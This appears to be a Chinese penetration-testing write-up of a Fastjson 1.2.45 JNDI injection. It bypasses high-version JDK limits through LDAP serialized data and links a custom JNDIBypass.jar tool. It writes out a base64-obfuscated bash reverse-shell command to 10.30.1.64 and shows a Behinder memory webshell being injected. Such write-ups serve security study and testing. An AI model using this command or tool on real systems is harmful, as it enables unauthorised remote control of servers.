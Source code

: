 首页：
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1695884408815-3c2adcfa-f6e7-4313-8659-8be0767a1ca1.png#averageHue=%231a1611&clientId=ubcf6682b-ddc2-4&from=paste&height=740&id=u743c6b3d&originHeight=925&originWidth=1760&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=3044703&status=done&style=none&taskId=u557edbdc-2df2-4c66-93dc-7a7c2507f8f&title=&width=1408)
登录处burp抓包，先查看fastjson版本(之前说过就不说了)， 1.2.45，在这个大版本下是存在JNDI注入的(mappings缓存绕过)，JNDI注入工具走一波，
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1695778494110-00dadf4e-027d-47de-a04a-e54f7dbbcc6a.png#averageHue=%23fefdfd&clientId=uf8c09517-8f2f-4&from=paste&height=186&id=u517e3070&originHeight=232&originWidth=1103&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=30677&status=done&style=none&taskId=u2924f6f4-8b2f-4ab4-88bc-6ccc74fc743&title=&width=882.4)
尝试所有他的links都失败了，原因就是这里的JDK版本为8u342，大于8u191导致的。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1695780480086-c122d6c1-b317-4699-b931-58851dd2c1cb.png#averageHue=%23535965&clientId=uf8c09517-8f2f-4&from=paste&height=448&id=ua0a00069&originHeight=560&originWidth=1420&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=1936888&status=done&style=none&taskId=u9206433d-9cde-4e0a-b3e0-f200b8a0228&title=&width=1136)
JNDI注入在JDK8u191之后受到了极大限制，所以这里需要绕过JDK高版本。JDK高版本绕过可以参考[浅蓝的这篇文章](https://tttang.com/archive/1405)。但这里还有一个问题，环境中并没有tomcat el或者groovy等依赖(这个同样有方法是可以探测到的)。
考虑到环境是FastJson的原因，之前的实验环境中又一直提到FastJson的原生发序列化漏洞，所以绕过的方式便是使用LDAP的javaSerializedData打Fastjson的原生反序列化Gadget。
为了方便，写了一个Bypass高版本JDK的工具，目前主要针对FastJson的JNDI注入，功能还比较单一，后续也打算在这基础上持续扩展和完善。[JNDIBypass.jar](https://www.yuque.com/attachments/yuque/0/2023/jar/26045928/1696397571772-9a97bd59-1da9-4391-acc8-b169908816d9.jar?_lake_card=%7B%22src%22%3A%22https%3A%2F%2Fwww.yuque.com%2Fattachments%2Fyuque%2F0%2F2023%2Fjar%2F26045928%2F1696397571772-9a97bd59-1da9-4391-acc8-b169908816d9.jar%22%2C%22name%22%3A%22JNDIBypass.jar%22%2C%22size%22%3A18591417%2C%22ext%22%3A%22jar%22%2C%22source%22%3A%22%22%2C%22status%22%3A%22done%22%2C%22download%22%3Atrue%2C%22taskId%22%3A%22u9855c1f6-2572-4db6-95c4-2a61a99d1c5%22%2C%22taskType%22%3A%22transfer%22%2C%22type%22%3A%22application%2Fjava-archive%22%2C%22mode%22%3A%22title%22%2C%22id%22%3A%22ObgKJ%22%2C%22card%22%3A%22file%22%7D)
目前支持执行命令、注入内存马、回显马等基础的东西。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1695884866072-765fef98-1df5-4f7a-9a2b-42247e64d4b9.png#averageHue=%234f5462&clientId=ubcf6682b-ddc2-4&from=paste&height=439&id=u4053f7ff&originHeight=549&originWidth=1441&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=1948944&status=done&style=none&taskId=u47eefab8-9529-41de-b56c-659d7300613&title=&width=1152.8)
执行命令反弹shell：` java -jar .\JNDIBypass.jar -a 10.30.1.64 -p 1389 -c "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4zMC4xLjY0Lzk5OTkgMD4mMQ==}|{base64,-d}|{bash,-i}"`
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1695785888687-ff736c2a-e564-4536-ae2a-894462c2b883.png#averageHue=%23444851&clientId=uf8c09517-8f2f-4&from=paste&height=168&id=u8c991ce4&originHeight=210&originWidth=1456&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=677170&status=done&style=none&taskId=uc8dcac53-15d8-4286-83de-fdc78e42bdc&title=&width=1164.8)
将生成的JNDI Link填入
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1695785920483-a8ccbbbd-84cf-4071-8e9e-318c8d8698ae.png#averageHue=%23fefefe&clientId=uf8c09517-8f2f-4&from=paste&height=214&id=uc13684be&originHeight=267&originWidth=1064&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=41798&status=done&style=none&taskId=ufe5b8dd5-440d-452e-8a4c-0e18e128615&title=&width=851.2)
反弹成功
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1695785965696-8e739038-a91d-4b83-a4c2-b678e1bda047.png#averageHue=%2354535e&clientId=uf8c09517-8f2f-4&from=paste&height=190&id=ue613adeb&originHeight=237&originWidth=975&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=570277&status=done&style=none&taskId=u6437feeb-f783-4835-91b9-aa340cd30c4&title=&width=780)
尝试注入冰蝎马：
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1695786700256-c6112bfd-ff46-4a5b-9ac5-3c19e9dc6218.png#averageHue=%23464a52&clientId=uf8c09517-8f2f-4&from=paste&height=159&id=ud7e30bb9&originHeight=199&originWidth=1444&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=602425&status=done&style=none&taskId=uf80490e0-6edb-4be7-a048-5d9e11120a9&title=&width=1155.2)
冰蝎连接：
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1695786791023-575f3c97-c7e4-48d2-af87-ff9f0f302722.png#averageHue=%23494949&clientId=uf8c09517-8f2f-4&from=paste&height=271&id=u7ed08584&originHeight=339&originWidth=974&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=21732&status=done&style=none&taskId=ud2ba4cb3-f59a-4ce3-83f5-c05279ef921&title=&width=779.2)
